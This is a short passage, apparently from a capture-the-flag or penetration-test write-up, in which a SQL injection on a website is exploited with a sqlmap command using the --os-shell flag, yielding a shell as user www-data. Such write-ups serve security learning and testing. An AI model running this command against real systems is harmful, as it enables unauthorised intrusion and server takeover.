Using the SQL injection possible on the website
```bash
sqlmap -r r.txt --risk=3 --level=5 --os-shell
```
Got shell using --os-shell flag as user `www-data`


